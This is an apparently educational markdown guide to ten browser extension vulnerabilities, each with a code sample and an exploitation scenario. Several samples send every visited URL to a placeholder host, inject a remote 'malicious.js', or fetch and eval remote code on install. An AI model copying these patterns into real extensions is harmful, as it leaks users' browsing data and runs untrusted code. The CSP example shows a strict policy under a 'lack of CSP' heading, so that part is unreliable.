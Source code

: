 # Browser Extension Security Vulnerabilities

This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.

## 1. Permissions Overreach
**Vulnerable Code Example:**
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
```

**Exploitation Scenario:**

An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.

## 2. Data Leakage

**Vulnerable Code Example:**

```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.

**Exploitation Scenario:**

An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.

## 3. Cross-Site Scripting (XSS)

**Vulnerable Code Example:**

```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
```
**Exploitation Scenario:**

User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.

## 4. Insecure Communication

**Vulnerable Code Example:**
```javascript
fetch('http://example.com/api/data')
```
**Exploitation Scenario:**

Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.

## 4. Code Injection

**Vulnerable Code Example:**
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
```
**Exploitation Scenario:**

If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.

## 6. Malicious Updates

**Vulnerable Code Example:**

```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Potentially unsafe
});

```
**Exploitation Scenario:**

If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.


## 7. Third-Party Dependencies

**Vulnerable Code Example:**

```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}

```
**Exploitation Scenario:**

An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.

## 8. Lack of Content Security Policy (CSP)

**Vulnerable Code Example:**

```json

{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}

```

**Exploitation Scenario:**

Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.

## 9. Insecure Storage

**Vulnerable Code Example:**

```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
**Exploitation Scenario:**

If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.

## 10. Insufficient Privacy Controls

**Vulnerable Code Example:**

```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}

```
**Exploitation Scenario:**

Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
